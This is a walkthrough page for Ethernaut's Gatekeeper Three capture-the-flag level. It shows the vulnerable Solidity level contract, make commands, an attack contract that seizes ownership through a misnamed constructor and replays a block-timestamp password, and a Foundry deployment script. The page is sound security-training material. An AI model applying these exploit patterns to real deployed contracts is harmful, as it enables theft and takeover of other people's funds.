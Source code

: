 # Level 28 - Gatekeeper 3 ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/28" %}

### Level Setup

{% hint style="info" %}
Cope with gates and become an entrant.

**Things that might help:**

* Recall return values of low-level functions.
* Be attentive with semantic.
* Refresh how storage works in Ethereum.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/GatekeeperThree.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
    GatekeeperThree public target;
    address public trick;
    uint256 private password = block.timestamp;

    constructor(address payable _target) {
        target = GatekeeperThree(_target);
    }

    function checkPassword(uint256 _password) public returns (bool) {
        if (_password == password) {
            return true;
        }
        password = block.timestamp;
        return false;
    }

    function trickInit() public {
        trick = address(this);
    }

    function trickyTrick() public {
        if (address(this) == msg.sender && address(this) != trick) {
            target.getAllowance(password);
        }
    }
}

contract GatekeeperThree {
    address public owner;
    address public entrant;
    bool public allowEntrance;

    SimpleTrick public trick;

    function construct0r() public {
        owner = msg.sender;
    }

    modifier gateOne() {
        require(msg.sender == owner);
        require(tx.origin != owner);
        _;
    }

    modifier gateTwo() {
        require(allowEntrance == true);
        _;
    }

    modifier gateThree() {
        if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
            _;
        }
    }

    function getAllowance(uint256 _password) public {
        if (trick.checkPassword(_password)) {
            allowEntrance = true;
        }
    }

    function createTrick() public {
        trick = new SimpleTrick(payable(address(this)));
        trick.trickInit();
    }

    function enter() public gateOne gateTwo gateThree {
        entrant = tx.origin;
    }

    receive() external payable {}
}

```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-28

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-28

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/d3a68c1d0355e625105de3535240f96209c076ce/src/Level28.sol" %}

{% code title="src/Level28.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// ================================================================
// │                   LEVEL 28 - GATEKEEPER THREE                │
// ================================================================
interface IGatekeeperThree {
    function construct0r() external;
    function enter() external;
    function createTrick() external;
    function getAllowance(uint256 _password) external;
}

contract AttackContract {
    IGatekeeperThree gatekeeper;

    constructor(address targetContractAddress) payable {
        gatekeeper = IGatekeeperThree(targetContractAddress);
    }

    function attack() public {
        // ** Gate One **
        gatekeeper.construct0r();

        // ** Gate Two **
        gatekeeper.createTrick();
        gatekeeper.getAllowance(block.timestamp);

        // ** Gate Three **
        (bool success,) = address(gatekeeper).call{value: 0.002 ether}("");
        require(success);

        gatekeeper.enter();
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/d3a68c1d0355e625105de3535240f96209c076ce/script/Level28.s.sol" %}

{% code title="script/Level28.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

import {AttackContract} from "src/Level28.sol";

// ================================================================
// │                   LEVEL 28 - GATEKEEPER THREE                │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        AttackContract attackContract = new AttackContract{value: 1 ether}(targetContractAddress);
        attackContract.attack();
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Nice job! For more information read [this](https://web3js.readthedocs.io/en/v1.2.9/web3-eth.html?highlight=getStorageAt#getstorageat) and [this](https://medium.com/loom-network/ethereum-solidity-memory-vs-storage-how-to-initialize-an-array-inside-a-struct-184baf6aa2eb).
{% endhint %}
